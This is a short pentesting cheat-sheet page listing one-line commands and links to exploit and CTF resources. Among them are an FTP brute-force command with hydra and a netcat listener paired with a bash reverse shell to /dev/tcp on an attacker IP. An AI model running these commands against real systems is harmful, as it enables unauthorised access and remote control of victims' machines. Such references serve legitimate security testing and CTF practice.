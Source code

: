 ```yaml
---
layout: page
title:  "Pentesting tools"
permalink: "pentesting-tricks.html"
tags: [security, pentesting]
summary: ""
---
```


* Decode base64: `echo ‘base64 encoded text’ | base64 -d`
* Create a dictionary from words on a webpage: `cewl http://test.com -w /root/tmp/dict.txt`
* FTP bruteforce: `hydra -L dict.txt -P dict.txt 192.168.1.104 ftp`
* Netbios name scanner: `nbtscan $IP`
* `rpcclient -U "user" $IP`
* `enum4linux $IP`
* ROT13: `rahash2 -E rot -S s:13 -s ‘A string\n’`
* Netcat and bash redirection:
  - Attacker: `nc -nlvp 4444`
  - Victim: `bash -i >& /dev/tcp/192.168.33.129/4444 0>&1`
* List all process listening on the network: `netstat -plant`


## Resources and references
* [LittleBlackBox tool](https://github.com/devttys0/littleblackbox/tree/master/docs)
* [Linux exploit suggester](https://github.com/InteliSecureLabs/Linux_Exploit_Suggester/blob/master/README.md)
* [Windows exploit suggester](https://github.com/bitsadmin/wesng)
* [RTP streams tool by GoogleProjectZero](https://github.com/googleprojectzero/Street-Party)
* [CTF resources](https://ctfs.github.io/resources/)
* [2 of diamonds Metasploit CTF writeup](https://www.tinkerfairy.net/2-of-diamonds.txt)
* [Schneider-Electric Automation Server](https://www.hackers-arise.com/single-post/2016/07/25/Mr-Robot-Hacks-How-fsociety-Hacked-of-the-SmartHome-of-The-Evil-Corp-Exec)
* [Word exploitation](https://www.hackers-arise.com/single-post/2018/03/05/Metasploit-Basics-Part-11-Exploiting-Fileformat-Vulnerabilities-in-MS-Office)
